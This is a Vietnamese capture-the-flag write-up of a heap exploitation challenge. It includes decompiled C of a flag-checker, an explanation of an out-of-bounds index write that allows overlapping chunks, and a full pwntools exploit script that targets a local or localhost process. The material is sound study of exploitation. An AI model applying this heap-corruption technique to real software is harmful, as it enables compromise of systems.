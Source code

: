 # Chal1

nay làm lại bài này để làm quen với pwndbg :))

## ida
```c 
void *getchunk()
{
  size_t size; // [rsp+8h] [rbp-28h] BYREF
  void *buf; // [rsp+10h] [rbp-20h]
  void *v3; // [rsp+18h] [rbp-18h]
  ssize_t v4; // [rsp+20h] [rbp-10h]
  unsigned __int64 v5; // [rsp+28h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  printf("size: ");
  __isoc99_scanf("%lu", &size);
  getchar();
  printf("data: ");
  v3 = malloc(size);
  buf = v3;
  while ( size )
  {
    v4 = read(0, buf, size);
    size -= v4;
    buf = (char *)buf + v4;
  }
  return v3;
}

void __fastcall check(const char *a1)
{
  int fd; // [rsp+14h] [rbp-Ch]
  void *buf; // [rsp+18h] [rbp-8h]

  buf = malloc(0x80uLL);
  fd = open("flag.txt", 0);
  if ( fd < 0 )
    errx(1, "failed to open flag.txt");
  read(fd, buf, 0x80uLL);
  close(fd);
  if ( !strcmp(a1, (const char *)buf) )
  {
    puts("Correct!");
    exit(7);
  }
  printf("%s is not the flag.\n", a1);
  free(buf);
}

int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  char v3; // [rsp+Bh] [rbp-25h]
  int v4; // [rsp+Ch] [rbp-24h] BYREF
  __int64 v5; // [rsp+10h] [rbp-20h]
  void *ptr; // [rsp+18h] [rbp-18h]
  __int64 v7; // [rsp+20h] [rbp-10h]
  unsigned __int64 v8; // [rsp+28h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
  puts("Welcome to the flag checker");
  v5 = getchunk();
  puts("I'll give you three chances to guess my flag.");
  ptr = (void *)getchunk();
  check(ptr);
  puts("I'll also let you change one character");
  printf("index: ");
  __isoc99_scanf("%d", &v4);
  getchar();
  printf("new character: ");
  v3 = getchar();
  getchar();
  *((_BYTE *)ptr + v4) = v3;
  check(ptr);
  free(ptr);
  puts("Last chance to guess my flag");
  v7 = getchunk();
  check(v7);
  exit(0);
}
```

- đọc sơ qua thì hiểu đơn giản là nhập vào flag, nó sẽ check xem có đúng là flag không, quan trong là mình có biết flag là gì đâu mà nhập :)) 
- để ý thì bài có 2 bug lớn tại đoạn này:
```c
puts("I'll also let you change one character");
printf("index: ");
__isoc99_scanf("%d", &v4);
getchar();
printf("new character: ");
v3 = getchar();
```
- tại đây nó cho phép thay đổi 1 kí tự trong flag mà ta nhập vào, vậy nếu ta nhập số âm thì ta hoàn toàn có thể thay đổi heapmeta data => **lỗi OOB**
- nếu ta thay đổi size của chunk thành 1 size khác lớn hơn, sau khi free và malloc lại, ta có thể thay đổi content của chunk khác => **lỗi Overlapping Chunk**


## Exploit

- ở lần nhập 1 và 2 không có gì quan trọng nên ta nhập đại 1 chunk có size nhỏ 

```python
create(b"8", b"a" * 8)
create(b"16", b"a" * 16)
```
- tiếp theo lợi dụng lỗi OOB để thay đổi pre size của chunk ta vừa khởi tạo từ 0x21 thành 0x31

```python
change(b"-8", p8(0x31))
```

![image](https://github.com/gookoosss/CTF/assets/128712571/fdf421ee-8692-4d44-b21d-d0e63c9de588)

- sau đó chương trình sẽ free cái chunk này và nhầm nó có size 0x31

![image](https://github.com/gookoosss/CTF/assets/128712571/53fd8ab8-82c0-4cb2-9307-f85f0779af56)


- malloc 1 chunk size 0x20 để lấy lại chunk vừa free, lúc này ta có thể ghi đè lên 0x55717c7e32f0 là heap metadate của  chunk 0x90 và leak flag

![image](https://github.com/gookoosss/CTF/assets/128712571/0f5c644c-5ae5-488e-ac41-99551f0b3905)


## script 

```python 
#!/usr/bin/python3

from pwn import *

exe = ELF('chal', checksec=False)

context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
                b*main+300
                b*main+237
                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('localhost', 5000)
else:
        p = process(exe.path)

GDB()
def create(size, data):
        sla(b"size: ", size)
        sa(b"data: ", data )
def change(index, data):
        sla(b"index: ", index)
        sla(b"character: ", data)

create(b"8", b"a" * 8)
create(b"16", b"a" * 16)
change(b"-8", p8(0x31))
create(b"32", b"a" * 32)


p.interactive()


```



